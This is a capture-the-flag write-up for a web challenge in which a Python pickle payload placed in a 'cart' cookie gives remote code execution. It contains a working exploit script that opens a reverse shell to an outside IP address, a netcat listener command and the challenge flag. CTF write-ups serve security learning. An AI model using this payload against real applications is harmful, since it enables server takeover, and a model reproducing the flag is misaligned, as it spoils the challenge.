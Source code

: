 # CTF Write-Up: Pickle Me This Cookie Jar Shenanigans!

## Introduction

This write-up discusses the challenge: **Pickle Me This Cookie Jar Shenanigans!** from the **Hack Havoc 2.0** CTF.

## Required Information

- **CTF Name:** Hack Havoc 2.0
- **Challenge Name:** Pickle Me This Cookie Jar Shenanigans!
- **Challenge Category:** Web
- **Challenge Points:** 150

## Content
The Pickle Me This Cookie Jar Shenanigans! challenge involved using Python’s pickle module to craft a serialized payload for remote code execution. Here’s how I approached it:

### Step 1: Setup AWS Ubuntu Instance
I launched an Ubuntu instance on AWS and updated the security group’s inbound rules to allow traffic on all ports from any IPv4 address, ensuring it was fully accessible.

### Step 2: Create the Exploit Code
Using Python, I crafted an exploit with a reverse shell payload using the pickle module.

exploit.py
```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        # Python reverse shell payload
        cmd = ('python3 -c \'import socket,subprocess;'
               's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
               's.connect(("13.239.38.111",4242));'
               'subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\'')
        return subprocess.Popen, (['/bin/bash', '-c', cmd],)

if __name__ == '__main__':
    # Serialize the class instance to a pickle object
    pickled = pickle.dumps(RCE())

    # Encode the pickled object in base64 (for safe transfer in the cookie)
    payload = base64.urlsafe_b64encode(pickled).decode()
    print(f'Payload: {payload}')

```

### Step 3: Generate Payload, Update Cookies, and Start Listener
I ran **exploit.py** to generate a base64-encoded payload. I then copied this payload into the "**cart**" cookie on the challenge website. At the same time, I started a Netcat session on my AWS instance to listen for incoming connections with:
```bash
nc -lvnp 4242
```


![](src\images\30.png)

### Step 4: Trigger the Exploit and Retrieve the Flag
After refreshing the page and navigating to /cart, the reverse shell was triggered. This gave me access to the server shell via the Netcat session, where I found the flag in flag.md.

![](src\images\31.png)


## Flag: 
     CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
